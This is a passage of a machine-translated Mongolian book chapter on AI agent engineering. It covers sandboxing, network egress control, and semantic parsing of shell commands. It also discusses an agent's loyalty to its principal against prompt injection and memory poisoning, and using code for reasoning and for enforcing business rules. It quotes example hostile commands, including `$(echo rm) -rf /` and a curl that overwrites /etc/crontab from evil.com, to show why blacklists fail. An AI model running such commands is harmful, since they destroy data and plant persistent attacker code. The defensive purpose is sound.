Эдгээр дөрвөн цэгийг дөрвөн төрлийн хил хязгаар гэж нэгтгэн дүгнэж болно: өгөгдлийн хил хязгаар, оролтын итгэлцлийн хил хязгаар, гаралтын нөлөөллийн хил хязгаар, сесс хоорондын хил хязгаар. OpenClaw шиг бүрэн зөвшөөрөлтэй орон нутгийн Agent нь эрсдэлийн дөрвөн хэмжүүрийг хамардаг тул аюулгүй байдлын хамгаалалтыг ийм Agents-ийн тулгарах ёстой гол сорилт болгодог.

Энэ нь мөн хаалттай эх үүсвэртэй арилжааны Agents (жишээ нь Claude Cowork (Anthropic-ийн ерөнхий зориулалттай Agent нь мэдлэгийн ажилд зориулагдсан, Claude кодын агентлаг архитектурыг дахин ашигладаг, орон нутгийн файлуудыг уншиж, бичиж, олон оффисын програмуудад олон шатлалт даалгавруудыг гүйцэтгэх чадвартай)) яагаад консерватив зөвшөөрлийн стратеги сонгосон болохыг тайлбарлаж байна. Шуурхай тарилгын эсрэг оролтын шүүлтүүр нь зөвхөн тусалдаггүй. Зорилго нь бүх халдлагыг таних биш, харин тарьсан Agent нь аюултай үйлдэл хийх боломжийг хэзээ ч авахгүй байхыг баталгаажуулах явдал юм. Энэ бол Бүлэг 1-ийн гурван давхар хамгаалалтын хашлага яг энд хэрэг болдог. Бусад Agents-тэй харьцуулахад кодчилол Agents нь дараахь зүйлийг онцгой анхаарах хэрэгтэй.

- **Тушаалын семантик задлан шинжлэх** — Shell командуудын комбинатор дэлбэрэлт нь түлхүүр үгийн хар жагсаалтыг ашиггүй болгодог; командын бодит үр нөлөөг семантик түвшинд ойлгох ёстой (энэ хэсэгт дараа нь дэлгэрэнгүй тайлбарлах болно);
- **Сандбокс тусгаарлалт ба сүлжээний гаралтын хяналт** — Кодын гүйцэтгэл нь код бичих Agents-д өвөрмөц халдлагын гадаргуу юм; тусгаарлалтын түвшин болон гаралтын стратегийн инженерчлэлийн сонголтуудыг энэ хэсэгт сүүлд авч үзэх болно;
- **Байнгын Санах ой-д зориулсан Сессийн Хамгаалалт** — Энэ бүлэгт Үхлийн Гурвалын шинжилгээг байнгын санах ойд өргөжүүлнэ: урт хугацааны санах ойд бичигдсэн контент нь гадны оролттой адил итгэлцлийн хяналтад хамрагдах ёстой бөгөөд ингэснээр хортой зааварчилгаа `MEMORY.md`-д нуугдаж, дараа нь хүчин төгөлдөр болно.

Эдгээр гурван хамгаалалт нь тус тус баталгаажуулалт, гүйцэтгэл болон өгөгдлийн давхаргад багтдаг бөгөөд өмнөх хоёр бүлгийн хамгаалалтын системийг нөхөж өгдөг. Эдгээр стратегиуд нь эрсдэлийг бүрэн арилгаж чадахгүй ч Agent-ийн халдлагын гадаргууг бууруулж чадна.

**Аюулгүй байдлын тор болгон тусгаарлах нь: Код гүйцэтгэх туршилтын орчны инженерийн сонголтууд.**

- **Сүлжээний гаралтын хяналт.** Энэ бол хамгийн амархан үл тоомсорлогддог, гэхдээ хамгийн чухал зүйл юм: анхдагчаар сүлжээ байхгүй, цагаан жагсаалтын прокси нь хүсэлтийн дагуу хязгаарлагдмал тооны очих газруудыг зөвшөөрдөг (багцын эх сурвалж, баримт бичгийн сайтууд, даалгаварт тодорхой шаардлагатай APIs). Үхлийн гурвалын 3-р зүйлийг эргэн харна уу - "гадаад харилцах чадвар": сүлжээний гаралтын хяналт нь яг түүний гүйцэтгэлийн давхаргын хамгаалалт юм. Шуурхай тарилга амжилттай болж, хортой код нь хамгаалагдсан хязгаарлагдмал орчин доторх мэдрэмтгий өгөгдлийг уншсан ч гэсэн гаралтгүй өгөгдөл гарч чадахгүй.
- **Файлын системийн тусгаарлалтын цар хүрээ.** Эх санг зөвхөн унших горимоор холбоно (Agent нь засварлах хэрэгслүүдээр кодыг өөрчилдөг бөгөөд үүсгэсэн нөхөөсийг хянасны дараа диск рүү бичдэг эсвэл хуулбарыг бичих боломжтой ажлын талбарт холбодог); тусдаа бичих боломжтой ажлын талбарын сан нь эд өлгийн зүйлс болон завсрын файлуудыг агуулдаг; итгэмжлэлийн файлууд (`~/.ssh`, түлхүүрүүд, жетонууд) нь sandbox-д огт холбогдоогүй байна.
- **Нөөцийн квот ба хугацаа дуусах.** CPU, санах ой болон дискний квотууд дээр нэмээд хязгааргүй давталт, сэрээний бөмбөг (өөрсдийгөө зэрлэгээр хуулбарлах замаар системийг доош нь татдаг процессууд) болон хязгааргүй диск бичихээс хамгаалах хугацаа дуусах хамгаалалт. Нэг практик нарийн ширийн зүйл: хугацаа дуусах эсвэл квотын зөрчил нь Agent руу бүтцийн алдаа буцаах ёстой ("гүйцэтгэл 120 секундын дараа дууссан; сүүлийн гаралт дараах байдалтай байна..."), ингэснээр Agent нь дараагийн ээлжинд стратегиа засах боломжтой болно.

**Аюулгүй байдал: Түлхүүр үгийн хар жагсаалт дээрх семантик задлан шинжлэх.**

Бүлэг 1 нь баталгаажуулалтын давхарга нь хэв маягийн тохируулгаас илүү семантик ойлголтод найдах ёстой гэж үзсэн. Shell командын аюулгүй байдлын баталгаажуулалт нь энэ зарчмын хамгийн хэцүү хэрэглээ юм. Энгийн түлхүүр үгийн хар жагсаалтууд нь Shell-ийн комбинаторын тэсрэлтийг даван туулж чадахгүй - командууд нь хоолой, дэд бүрхүүл, хувьсагчийн өргөтгөл гэх мэтээр дамжуулан аливаа статик дүрмийг тойрч гарах боломжтой (жишээлбэл, хэрэв `rm` хаагдсан бол халдагч `$(echo rm) -rf /`-г ашиглан тойрч гарах боломжтой). Үйлдвэрлэлийн түвшний бэхэлгээ нь семантик задлан шинжлэхийг ашигладаг: команд бүрийн аргументын төрлүүд болон задлан шинжлэх дүрмийг тодорхойлох, үүнд дараах аргументуудыг ашигладаг тугнууд, дараагийн аргументдаа аюултай ачааллыг нуудаг гэм хоргүй мэт санагдах далбаа зэрэг халдлагын хэв маягийг таних. Жишээлбэл, `find / -name '*.log' -exec rm {} \;` нь `rm` устгах үйлдлийг хууль ёсны `find` командын аргументуудаар дамжуулан суулгадаг; өөр нэг жишээ бол `curl -o /etc/crontab http://evil.com/payload` бөгөөд энэ нь файлыг татаж байгаа мэт боловч системийн хуваарьт даалгавруудыг үнэндээ дарж бичдэг. Семантик задлан шинжлэх нь эдгээр үүрлэсэн аюултай үйлдлүүдийг тодорхойлж чаддаг бол энгийн командын хар жагсаалтууд тэдгээрийг барьж чадахгүй. Тохируулга хийхээс илүүтэй ойлголт дээр суурилсан энэхүү аюулгүй байдлын механизм нь "хязгаарлалт" функцийн өндөр түвшний хэрэгжилт юм.

**Agent хэнд үйлчилдэг вэ: Олон талт төлөөллийн дор үнэнч байдал.**

Дээрх аюулгүй байдлын механизмууд нь "тушаалуудыг хорлонтойгоор гүйцэтгэхээс" сэргийлдэг; илүү нарийн аюулгүй байдлын асуудал байдаг - **үндсэн үнэнч байдал**: **Agent үнэндээ хэний талд байгаа**. Models нь "хэн надтай ярьж байгаа, би тэдэнд туслахын тулд чадах бүхнээ хийх болно" гэсэн гэнэн анхдагч зарчмаар сургагдсан байдаг ч бодит амьдрал дээрх Agents нь ихэвчлэн **олон талын төлөөлөл** дор ажилладаг: ашиг сонирхол нь зөрчилдөж буй гуравдагч этгээдтэй харьцахдаа үндсэн этгээдийн өмнөөс ажилладаг. Таны өмнөөс үнийн хэлэлцээр хийх Agent нь "тусламж хэрэгтэй хэрэглэгч"-тэй биш, харин **хэлэлцээр хийж буй өрсөлдөгчтэй** тулгардаг. Энд "хэлж буй хүнд туслах" нь аюултай анхдагч юм - эсрэг тал нь таны Agent-д зүгээр л оролцуулснаар нөлөөлж эхэлж болно.

Энэ нөхцөл байдалд хил хязгаарын Model-уудыг оруулах нь тодорхой **үнэнч байдлын спектр**-ийг харуулж байгаа бөгөөд хоёр тал хоёулаа бүтэлгүйтдэг[^ch5-1]: нэг талаас **хэт шударга** - захирлын хувийн мэдээллийг (жишээ нь, "манай эцсийн дүн 12,000") өрсөлдөгчдөө шууд дамжуулж, хэд хэдэн удаа дарамт шахалтын дараа бууж өгөх; нөгөө талаас **хэт сэжигтэй** - захирлын хууль ёсны хүсэлтийг ч татгалзаж, улмаар даалгавраа биелүүлэхгүй байх. Хамгийн хэцүү хэсэг нь хоёр бүтэлгүйтэл нь хөрөө мэт санагддаг: алдагдлыг бөглөөд та хэт татгалзах руу шилждэг - хоёуланг нь авахад хэцүү байдаг.

Энэ нь Agents кодчилолд онцгой хамааралтай: репозитороос уншсан итгэлгүй контент, багажаар буцаагдсан гаралт, гуравдагч талын MCP Server-ээс илгээсэн зааварчилгаа - бүгд Agent-г эргүүлэхийг оролдож буй "өрсөлдөгчид" юм - **зааварчилгааны оруулга нь үндсэндээ эргүүлэх оролдлого юм** (Бүлэг 2 ба 4). Тиймээс Бэхэлгээ нь Agent хэнд үнэнч байгааг тодорхой зааж өгөх ёстой: удирдагчийн зааварчилгаа хамгийн өндөр ач холбогдолтой байдаг бол гадны талуудаас ирсэн бүх зүйл анхдагчаар "зөвлөгөө авах боломжтой боловч зааварчилгааны хүчгүй өгөгдөл" болж буурдаг. Системийн зааварчилгаанд үр дүнтэй **үнэнч байдлын ёс зүйн код** нь: удирдагчийн хувийн мэдээллийг, түүний дотор байгаа эсэхийг хамгаалах; татгалзах үед хамгаалагдсан мэдээллийг тоолж болохгүй, учир нь ингэх нь өөрөө алдагдаж болзошгүй; хувийн ашиг нь олон нийтийн байр суурь биш; зөвхөн удирдагчийн тодорхой, тодорхой зааврыг гүйцэтгэх; давтан дарамтыг тэсвэрлэх. Үндсэндээ энэ нь Model-т анхдагчаар дутагдаж буй байр суурийг өгөхийн тулд Бэхэлгээг ашиглаж байна: **үндсэн этгээдэд туйлын үнэнч байх, гадны талуудаас болгоомжлох**.

[^ch5-1]: Энэхүү үнэнч байдлын хүрээ болон ёс зүйн дүрмийн бүрэн үнэлгээг Ли, Божие, Ноа Ши нараас олж болно. *Таны Agent хэний талд байна вэ? LLM Agents дахь олон талт үндсэн үнэнч байдал.* arXiv:2606.30383, 2026.

## Код: Ерөнхий Agent-ийн мета-чадвар

Өмнөх хэсэгт найдвартай кодчилол Agent-г хэрхэн бүтээхийг харуулсан бөгөөд архитектураас эхлээд багаж хэрэгслийн хэрэгжилт, бэхэлгээний инженерчлэл хүртэл. Гэхдээ код үүсгэхийн ач холбогдол нь програм бичихээс хамаагүй илүү юм.

> **"Мета-чадвар" гэж юу вэ?** Ердийн чадвар гэдэг нь Agent-ийн тодорхой зүйл хийх чадвар юм - асуултанд хариулах, тодорхой API руу залгах, текстийн хэсэг үүсгэх. **Мета-чадвар** гэдэг нь "бусад чадварыг бий болгож чаддаг" чадвар юм: Agent нь бүх чадварыг урьдчилан бүтээх шаардлагагүйгээр даалгаврыг биелүүлэхийн тулд шинэ хэрэгслүүд, шинэ хязгаарлалтууд, шинэ илэрхийллийн хэлбэрүүдийг шууд бичихэд ашигладаг. Код үүсгэх нь яг ийм мета-чадвар юм - энэ нь нарийн, гүйцэтгэгдэх боломжтой, эмхэтгэх боломжтой бөгөөд шинэ хэрэгслүүд (скриптүүд, API дуудлагын дараалал), шинэ хязгаарлалтууд (баталгаажуулалт, баталгаажуулалтын дүрэм), шинэ илэрхийллийн хэлбэрүүд (HTML маягтууд, PPT, видео хүрээ) үүсгэх боломжийг олгодог.

Ийм учраас Agent системд гүйцэтгэдэг үүргийн код нь "програм бичих"-ээс хамаагүй илүү юм. Дараагийн зургаан хэсэгт энэхүү мета-чадвар нь програмчлалаас гадна хэрэглэгдэх зургаан чиглэлийг нэг нэгээр нь харуулав. Эдгээр зургаан чиглэл нь зүгээр л хавтгай жагсаалт биш; тэдгээр нь мета-чадвар хэрэглэгдэж буй объектоор зохион байгуулагдсан дотроосоо гадагшаа урагшилдаг:

1.  **Өөрийгөө Сэтгэх** — алдаатай байгалийн хэлний сэтгэлгээг орлуулахын тулд код ашиглах (Thinking Tools);
2.  **Бизнесийн дүрэм**—бүдэг бодлогуудыг гүйцэтгэгдэх хязгаарлалт болгон кодлох (Бизнесийн дүрмийн хязгаарлалт);
3.  **Контент танилцуулга** — PPT, видео болон дүрслэлийн эд өлгийн зүйлсийг үүсгэх (Мультимедиа үүсгэх);
4.  **Систем интерфэйсүүд**—олон төрлийн APIs-г холбож, өөрчлөгдөж буй өгөгдлийн форматад автоматаар дасан зохицдог (Систем адаптерууд);
5.  **Хэрэглэгч интерфэйсүүд** — динамикаар хэлбэрүүд болон интерактив интерфэйсүүдийг бүтээх (Үүсгэх UI);
6.  **Agent өөрөө**—кодыг ашиглан шинэ Agents үүсгэх эсвэл засах, ингэснээр bootstrapping-г идэвхжүүлэх.

### Код бичих нь Tool-г сэтгэлгээ болгон ашиглах

LLMs нь байгалийн хэлийг ойлгож, үүсгэхдээ гайхалтай боловч нарийн тооцоолол, бэлгэдлийн удирдлага, хатуу логик дүгнэлт хийхдээ үндсэндээ сул байдаг. Учир нь Model-ын сэтгэлгээ нь төрөлхийн магадлалтай, ойролцоо шинж чанартай байдаг бол математик болон логик бодлого нь тодорхой, яг тодорхой хариулт шаарддаг. Нэгэн тодорхой харьцуулалт нь дараах зүйлийг харуулж байна:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

LLM нь асуудлыг ойлгож, код бичих үүрэгтэй байг, код тайлбарлагч нь нарийн тооцооллыг хариуцах ёстой байг - энэхүү хөдөлмөрийн хуваарилалт нь тус бүр өөрийн давуу талыг ашиглах боломжийг олгодог.

Mathematica-г бүтээгч Стефен Волфрам энэ талаар гүнзгий ойлголт өгсөн. LLMs үүсэхээс өмнө математикийн нарийн тооцоолол хийх чадвартай системүүд аль хэдийн байсан бөгөөд тэдгээр нь **Бэлгэдлийн тооцоолол**-ыг ашиглан ажилладаг байсан, өөрөөр хэлбэл тоон утгыг ойролцоолохын оронд математикийн тэмдэг ашиглан илэрхийллийг боловсруулдаг байв. Жишээлбэл, уламжлалт тооны машин $\sqrt{2}$-ийг 1.414 гэж ойролцоолдог бол бэлгэдлийн тооцооллын систем нь $\sqrt{2}$-ийн яг хэлбэрийг хадгалж, шаардлагатай үед л аравтын бутархай болгон хөрвүүлдэг. Волфрамын бүтээсэн Волфрам Альфа бол ийм систем юм: хэрэглэгчид математикийн бодлого оруулдаг бөгөөд энэ нь яг хариултыг буцаадаг. Гэсэн хэдий ч түүний байгалийн хэлний ойлголт нь нэлээд эмзэг бөгөөд хамрах хүрээ нь хязгаарлагдмал байдаг - энэ нь зөвхөн хязгаарлагдмал хэллэгийг таньж чаддаг дүрмийн задлан шинжлэгч дээр суурилдаг; хэллэгийн бага зэрэг өөрчлөлт нь задлан шинжлэхэд алдаа гаргахад хүргэж болзошгүй бөгөөд энэ нь нээлттэй олон шатлалт сэтгэлгээг зохицуулж чадахгүй нь гарцаагүй. LLMs нь энэ цоорхойг төгс нөхдөг - тэд төрөл бүрийн байгалийн хэлний илэрхийллийг ойлгохдоо сайн боловч нарийн тооцоололд сайн биш юм. Шинэ хамтын ажиллагааны Model нь: LLM нь хэрэглэгчийн байгалийн хэлний асуултыг ойлгох, түүний доторх математик эсвэл логик бүтцийг тодорхойлох, албан ёсны хэл рүү хөрвүүлэх (жишээлбэл, Mathematica хэл эсвэл Python-ийн SymPy сан) үүрэгтэй байх; дараа нь нарийн үр дүнд хүрэхийн тулд гүйцэтгэх зорилгоор тусгай бэлгэдлийн тооцооллын хөдөлгүүр эсвэл хязгаарлалтын шийдэгчид хүлээлгэн өгөх.

> **Туршилт 5-3 ★★: Математикийн бодлого бодох чадварыг сайжруулахын тулд Tools код үүсгэх аргыг ашиглах нь**
>
> **Туршилтын зорилго**: Код тайлбарлагчийн тусламжтайгаар Agent-ийн математик сэтгэлгээний нарийвчлал сайжирч байгааг баталгаажуулах.
>
> **Техникийн арга**: Agent-г sympy, numpy, болон scipy зэрэг математикийн сангууд агуулсан Python хамгаалагдсан хязгаарлагдмал орчингоор тоноглоорой. Agent нь математикийн бодлоготой тулгарах үед үүнийг Python код болгон албан ёсны болгодог: sympy нь бэлгэдлийн тооцоолол (тооцоолол, тэгшитгэлийн бодлогын), scipy нь тоон оновчлолын, numpy нь матрицын үйлдлүүдийн хувьд. Үүсгэсэн кодыг хамгаалагдсан хязгаарлагдмал орчинд гүйцэтгэж, нарийн үр дүнг буцаана.
>
> **Хүлээн авах шалгуур**: Америкийн урилгын математикийн шалгалтын загварчилсан AIME маягийн бодлогуудыг ашиглан үнэлэх. Цэвэр гинжин бодлын сэтгэлгээний нарийвчлалыг кодын тусламжтайгаар сэтгэлгээний нарийвчлалтай харьцуулах; кодын тусламжтайгаар хийх горим нь мэдэгдэхүйц өндөр нарийвчлалд хүрэх ёстой. Код нь математикийн санг зөв ашиглаж байгаа эсэх, шийдлийн үйл явц нь логикийн хувьд тодорхой эсэхийг шалгана уу.
>

> **Туршилт 5-4 ★★: Code generation Tools ашиглан логик Дүгнэлтийн чадварыг сайжруулах нь**
>
> **Туршилтын зорилго**: Agent-ийн хязгаарлалт шийдвэрлэх кодын тусламжтайгаар логик сэтгэлгээ хийх чадварыг үнэлэх.
>
> **Техникийн арга**: Agent-г python-constraint санг агуулсан Код тайлбарлагчаар тоноглоорой. Agent нь Рыцариуд болон Кнавын бодлого зэрэг логик таавруудыг албан ёсны хязгаарлалтын Model болгон хөрвүүлдэг: энэ нь хувьсагчдыг (арлын оршин суугч бүрийн таних тэмдэг) тодорхойлж, "рыцариуд үнэнийг хэлдэг" гэх мэт дүрмийг хязгаарлалт болгон кодлож, сэтгэл ханамжтай даалгавар олохын тулд бодогчийг дууддаг.
>
> **Хүлээн авах шалгуур**: [K&K Puzzle өгөгдлийн багц](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) ашиглан үнэлнэ үү. Код ашиглан боловсруулсан горим нь кодын тусламжгүйгээр тайлбарлах үеийнхээс хамаагүй өндөр, 90%-иас дээш шийдлийн нарийвчлалд хүрэх ёстой.
>

Энэ туршилт нь илүү ерөнхий хэв маягийг илчилдэг: Model болон бэхэлгээний хэрэгсэл нь хоорондоо харилцан солилцдог. Model хангалттай хүчтэй үед бэхэлгээ нь нимгэн байж болно - Model нь өөрөө зөв тайлбарладаг бөгөөд код тайлагчаас олох ашиг багасдаг. Model сул байх үед бэхэлгээ нь илүү ихийг хийх ёстой - зөв байдлыг баталгаажуулахын тулд гол логик сэтгэлгээг код болон хязгаарлалт тайлагчдад шилжүүлдэг. Тийм ч учраас энэхүү туршилт нь ялгаатай байдлыг нэмэгдүүлэхийн тулд зориудаар сул Model-ыг ашигладаг: сул Model нь кодын тусламжгүйгээр тайлбарлахдаа тооцооллын алдаа гаргадаг бөгөөд кодын тусламж нь нарийвчлалыг эрс нэмэгдүүлдэг; хангалттай хүчтэй үндэслэлтэй Model нь кодын тусламжгүйгээр бүх тааврыг шийддэг бөгөөд кодын тусламжаас олох ашиг нь тэг рүү ойртдог. Тиймээс бэхэлгээ хэр зузаан байх ёстой нь таны Model-ын чадавхийн хил хязгаар хаана байгаагаас хамаарна - аливаа Agent техникийг үнэлэхдээ энэ таамаглалыг амархан үл тоомсорлодог: өөр өөр хүч чадалтай Model-уудтай хослуулсан ижил бэхэлгээ нь эсрэг дүгнэлтийг дэмжиж чадна.

### Бизнесийн дүрмийн хязгаарлалт болгон код бичих нь

Энэ хэсэг нь энэ бүлгийн өмнөх Harness Engineering хэсэгт шууд хариу үйлдэл үзүүлж байна. Harness-ийн гол зарчмуудын нэг нь "Хязгаарлалтууд: Кодлогдсон, баримтжуулаагүй" бөгөөд дүрмийг байгалийн хэлний баримтжуулалтаас гүйцэтгэгдэх код болгон хувиргаж, тэдгээрийг зөвлөх удирдамжийн оронд системийн зан төлөвт заавал мөрдөх хязгаарлалт болгодог. Код үүсгэх нь Agent-д энэхүү хувиргалтын процессыг бие даан гүйцэтгэх боломжийг олгодог.

Зөвхөн байгалийн хэлээр тайлбарласан бизнесийн дүрэм, ажлын урсгал, шийдвэр гаргах логик нь тодорхойгүй байдлаар дүүрэн байдаг. "Боломжит буцаан олголтын хүсэлт" гэж юу вэ? "Яаралтай" гэж юуг тооцдог вэ? Хил хязгаар нь байгалийн хэлний тодорхойлолтыг эсэргүүцдэг - "худалдан авснаас хойш 7 хоногийн дотор буцаан олголт хийх боломжтой" гэдэг нь тодорхой сонсогдож байгаа ч эдгээр нь хуанлийн өдрүүд үү эсвэл ажлын өдрүүд үү? "Худалдан авалт" гэдэг нь захиалга байршуулах эсвэл тээвэрлэх гэсэн үг үү? Үүний эсрэгээр код нь мэдлэгийн хоёрдмол утгагүй, гүйцэтгэгдэж болох дүрслэл юм - энэ нь ажилладаг эсвэл алдаа гаргадаг; завсрын зүйл гэж байдаггүй.

**Бизнесийн нарийн төвөгтэй дүрмийг нарийн илэрхийлсэн.**

**Байгалийн хэлний дүрэм ба кодчилсон дүрэм: Нэмэлт, сольж болохгүй**

Системийн хүсэлтэд дүрэм бичих нь Model-т хэрэглэгчдэд **бодлогыг тайлбарлах**, **бодлогод нийцсэн хувилбаруудыг тодорхойлох** (жишээ нь, "цуцлахын оронд дахин захиалах"), хэрэгслийг дуудахаас өмнө урьдчилсан боломжийн үнэлгээ хийх боломжийг олгодог.

Дүрмүүдийг баталгаажуулалтын хэрэгсэл болгон кодчилох нь гурван давуу талыг санал болгодог: **нарийн, хоёрдмол утгагүй шийдвэрийн логик**; **детерминист гүйцэтгэл**, ингэснээр ижил оролт үргэлж ижил гаралтыг гаргадаг; мөн олон нөхцөлт Булийн логик, цагийн тооцоолол, өгөгдлийн эх сурвалж хоорондын баталгаажуулалт зэрэг **нарийн төвөгтэй дүрмийн хослолуудыг** үр дүнтэй зохицуулах.

Практикт тэдгээрийг хамтад нь ашиглах хэрэгтэй: системийн заавар нь ойлголцол, харилцаа холбооны байгалийн хэлний дүрмийг агуулдаг бол гол шийдвэр гаргах цэгүүд нь нийцлийг хангахын тулд "хаалгач" болж ажилладаг кодчилсон баталгаажуулалтын хэрэгслүүдээр тоноглогдсон байдаг.

Кодчилсон дүрмийн жинхэнэ үнэ цэнэ нь Token үр ашиг биш, харин **эргэшгүй алдаанаас урьдчилан сэргийлэх** юм. Захиалгыг цуцлах, хөрөнгө шилжүүлэх эсвэл өгөгдлийг устгах нь гүйцэтгэсний дараа буцаах боломжгүй байж магадгүй юм. Кодчилсон баталгаажуулалт нь үйл ажиллагааны өмнө хамгаалалтын сүүлийн шугамыг байрлуулдаг бөгөөд уг баталгааны үнэ цэнэ нь хэрэгжүүлэх зардлаас хамаагүй давж гардаг.

**Баталгаажуулалтыг гүйцэтгэлтэй хослуулах нь: Шалгах хуудасны гарын авлага Дүгнэлт; Үнэнийг үндэслэсэн баталгаажуулалт нь хаалгыг хамгаалдаг**

Тусдаа баталгаажуулалтын хэрэгсэл үүсгэхийн оронд баталгаажуулалтыг гүйцэтгэх хэрэгсэл дотор байрлуулна уу. Агаарын тээврийн болон цахим худалдааны хэрэглэгчийн үйлчилгээний загварчилсан хувилбаруудад хэрэгслийн хэрэглээ болон бодлогын нийцлийг үнэлэх зорилготой τ-bench-ийн агаарын тээврийн компанийн цуцлах бодлогыг авч үзье.

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Энэ дизайны үнэ цэнийг хоёр түвшинд ойлгох хэрэгтэй.

**Нэгдүгээр түвшин: сэтгэлгээний шалгах хуудас болгон параметрүүд.** Хэрэгслийн тайлбарт цуцлах бодлогыг бүрэн жагсаасан бөгөөд Model-аас "захиалгын дэлгэрэнгүй мэдээллийг асууж, дуудлага хийхээсээ өмнө нөхцөл бүрийг нэг нэгээр нь шалгах"-ыг шаарддаг; нэмэлт `expected_*` параметрүүд нь Model-аас өөрийн үндэслэлийг тодорхой бичихийг шаарддаг. Эдгээр параметрүүдийг бөглөхийн тулд Model нь эхлээд захиалгын дэлгэрэнгүй мэдээллийг авахын тулд асуулгын хэрэгслийг дуудаж, нөхцөл бүрийг нэг нэгээр нь баталгаажуулах ёстой тул эдгээр параметрүүдийг бөглөх нь **заавал шалгах хуудас** болж үйлчилнэ. Model нь кабин ангилал нь эдийн засгийн ангилал бөгөөд даатгал худалдаж аваагүй болохыг олж мэдсэн тохиолдолд дуудлага бэлтгэх явцдаа 5-р дүрмийг анзаарч, улмаар үүнийг эхлүүлэхээс **зайлсхийж**, оронд нь хэрэглэгчдэд "Даатгалгүй эдийн засгийн ангиллыг цуцлах боломжгүй. Захиалгаа цуцлах эсвэл өөрчлөхөөсөө өмнө даатгал худалдаж авах талаар бодож үзээрэй" гэж шууд хэлж магадгүй юм. Энэ давхарга нь үндэслэлийг удирдаж, хүчингүй дуудлагыг бууруулдаг; гэсэн хэдий ч энэ нь аюулгүй байдлын хил хязгаар биш юм. `expected_*` утгууд нь зөвхөн өөрөө мэдээлсэн нэхэмжлэл бөгөөд Server-ийн итгэмжлэгдсэн баримтууд биш юм.

**Хоёрдугаар түвшин: Server-ийн талын газрын үнэнийг хаалгачаар баталгаажуулах.** Тэмдэглэл кодын гол Model: бүхээгийн ангилал, даатгалын байдал, захиалгын хугацаа, сегментийн хэрэглээ, нислэгийн байдал зэргийг Server мэдээллийн сангаас асуудаг; одоогийн цаг нь Server-ийн цагаас ирдэг. **Model-ын өөрөө мэдээлсэн параметрүүдээс ямар ч бодлогын баримт гардаггүй.** Энэ нь шаардлагагүй илүүдэл биш юм: Model нь хий үзэгдэлтэй эсвэл шуурхай тарилгаар удирдуулж болзошгүй бөгөөд өмнөх Lethal Triad шинжилгээгээр харуулсанчлан Agent нь нэг Context дотор ажиллаж байгаа нь өөрийн зан төлөвийг найдвартай баталгаажуулж чадахгүй. Хэрэв `cabin_class`, `has_insurance`, тэр ч байтугай `current_time`-ийг Model-аар дүүргэсэн параметрүүд болгон зохион бүтээсэн бол санамсаргүй эсвэл өдөөгдсөн ганц хуурамч утга нь хаалгачийг тойрч гарах боломжтой. Сүүлийн хамгаалалтын шугам нь Model нь хуурамчаар үйлдэж чадахгүй өгөгдөл дээр суурилсан байх ёстой - энэ нь "чухал үйлдлүүд нь бие даасан баталгаажуулалт шаарддаг" гэсэн өмнөх байр суурьтай нийцэж байна: бие даасан байдал гэдэг нь зөвхөн бие даасан Model-ыг төдийгүй бие даасан өгөгдлийн эх сурвалжийг хэлнэ.

Ийнхүү гурван түвшний хамгаалалт бүрэн гүйцэд болсон: (1) системийн байгалийн хэлний дүрмүүд нь ойлголт, тайлбарыг дэмжих; (2) хэрэгслийн тодорхойлолт болон параметрийн дизайн нь шалгах хуудас болж, Model-ыг дуудахаас өмнө нөхцөл байдлыг тодорхой баталгаажуулахад чиглүүлдэг; (3) мэдээллийн сангийн газрын үнэнийг ашиглан Server талын код дээр суурилсан баталгаажуулалт нь эцсийн хаалгачийн үүрэг гүйцэтгэдэг. Эхний хоёр түвшин нь алдаа гарахыг бууруулдаг бол гурав дахь нь алдаа эргэлт буцалтгүй алдагдал болохгүй байхыг баталгаажуулдаг.

> **Туршилт 5-5 ★★: Жижиг Model-ууд нь код дээр суурилсан мэдлэгээр дамжуулан дүрмийн гүйцэтгэлийн нарийвчлалыг сайжруулдаг**
>
